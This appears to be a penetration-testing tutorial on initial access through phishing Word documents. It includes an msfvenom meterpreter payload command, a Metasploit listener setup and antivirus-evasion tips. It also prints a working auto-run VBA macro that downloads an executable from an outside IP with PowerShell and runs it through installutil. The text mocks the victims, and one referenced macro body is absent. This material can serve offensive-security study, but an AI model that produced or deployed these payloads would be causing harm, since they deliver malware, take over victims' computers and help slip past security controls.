

# Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. **Generally x86 for Office 2016 and x64 for Office 2021/365**

**Important thing to note that if you gain a shell via doc phishing, you are likely operating in a x86 process. If you need to bypass UAC through fodhelper, you need to find a way to upgrade to a 64-bit process (via migration or popping another shell)**

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()


# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!


# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode
- Need to XOR your shellcode with the  courtesy of https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs


# Round 3 - Powershell in Custom Runspace, pulled and then executed by InstallUtil
- Custom.exe is the CustomPowershellRunspace
- Do note the diff between 32bit and 64-bit powershell
- Inside Custom.exe, we should be calling the 64-bit shellcode because powershell is likely executing in 64-bit context due ot the fact that installutil is in 64-bit



```vba
Sub MyMacro()
    Dim s As String
    Dim s1 As String
    s = "powershell.exe iwr -uri http://192.168.45.169/custom.exe -outfile C:\\Windows\\tasks\\custom.exe"
    s1 = "C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\Windows\\tasks\\custom.exe"
    Set oShell = CreateObject("WScript.Shell")
    oShell.Run s, 0, True  ' Waits until download finishes
    oShell.Run s1, 0, False
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
